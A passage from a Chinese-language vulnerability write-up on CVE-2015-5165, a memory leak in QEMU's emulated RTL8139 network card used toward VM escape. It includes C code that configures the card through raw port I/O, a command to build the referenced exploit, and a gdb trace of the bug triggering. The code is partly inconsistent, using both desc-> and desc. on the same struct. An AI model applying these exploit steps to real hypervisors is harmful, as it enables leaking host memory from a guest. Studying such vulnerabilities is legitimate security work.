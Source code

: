 网卡通过in*()  out*()原语（来自sys/io.h）进行配置。 为此，我们需要具有CAP_SYS_RAWIO特权。 以下代码段配置了网卡并设置了一个Tx描述符。

```
#define RTL8139_PORT        0xc000
#define RTL8139_BUFFER_SIZE 1500

struct rtl8139_desc desc;
void *rtl8139_tx_buffer;
uint32_t phy_mem;

rtl8139_tx_buffer = aligned_alloc(PAGE_SIZE, RTL8139_BUFFER_SIZE);
phy_mem = (uint32)gva_to_gpa(rtl8139_tx_buffer);

memset(&desc, 0, sizeof(struct rtl8139_desc));

desc->dw0 |= CP_TX_OWN | CP_TX_EOR | CP_TX_LS | CP_TX_LGSEN |
             CP_TX_IPCS | CP_TX_TCPCS;
desc->dw0 += RTL8139_BUFFER_SIZE;

desc.buf_lo = phy_mem;

iopl(3);

outl(TxLoopBack, RTL8139_PORT + TxConfig);
outl(AcceptMyPhys, RTL8139_PORT + RxConfig);

outw(CPlusRxEnb|CPlusTxEnb, RTL8139_PORT + CpCmd);
outb(CmdRxEnb|CmdTxEnb, RTL8139_PORT + ChipCmd);

outl(phy_mem, RTL8139_PORT + TxAddr0);
outl(0x0, RTL8139_PORT + TxAddr0 + 0x4);
```

### 3.3  Exploit

phrack随附的源代码中提供了完整的利用（cve-2015-5165.c）。（ uuencode用于将二进制文件编码为纯ASCII文本，以便可以通过电子邮件发送它们。）
cve-2015-5165.c依赖qemu.h头文件中的函数偏移地址，因此首先需要通过[build-exploit.sh](https://github.com/jiayy/android_vuln_poc-exp/blob/master/EXP-2015-7504/build-exploit.sh)来进行计算。

```
./build-exploit.sh '/home/han/VMescape/qemu/bin/debug/native/x86_64-softmmu/qemu-system-x86_64'
```

该漏洞利用程序在网卡上配置所需的寄存器，并设置Tx和Rx缓冲区描述符。 然后，它伪造了格式错误的IP数据包，该IP数据包的目的地址和源地址为网卡的MAC地址。 这使我们能够通过访问已配置的Rx缓冲区来读取泄漏的数据。
通过对qemu运行程序下断点，可用看到漏洞触发的过程，由于ip_len小于伪造的hlen，导致最后tcp_data_len比实际的 tcp 数据大， 多余的内存区会被拷贝到包里发送出去（网卡需要配置为loopback 口）

```
(gdb) b rtl8139.c:2173
Breakpoint 1 at 0x55a5ef757b03: file /home/han/VMescape/qemu/hw/net/rtl8139.c, line 2173.
(gdb) c
Continuing.

Thread 3 "qemu-system-x86" hit Breakpoint 1, rtl8139_cplus_transmit_one (s=0x55a5f26ecfe0)
at /home/han/VMescape/qemu/hw/net/rtl8139.c:2173
2173 if (IP_HEADER_VERSION(ip) != IP_HEADER_VERSION_4) {
(gdb) p/x ip
$1 = 0x7ff7d4278b6e
(gdb) p/x *ip
$2 = {ip_ver_len = 0x45, ip_tos = 0x0, ip_len = 0x1300, ip_id = 0xadde, ip_off = 0x40, ip_ttl = 0x40, ip_p = 0x6,
ip_sum = 0xadde, ip_src = 0x10108c0, ip_dst = 0x201a8c0}
(gdb) n
[Thread 0x7ff7e131f700 (LWP 56763) exited]
2179 hlen = IP_HEADER_LENGTH(ip);
(gdb) n
```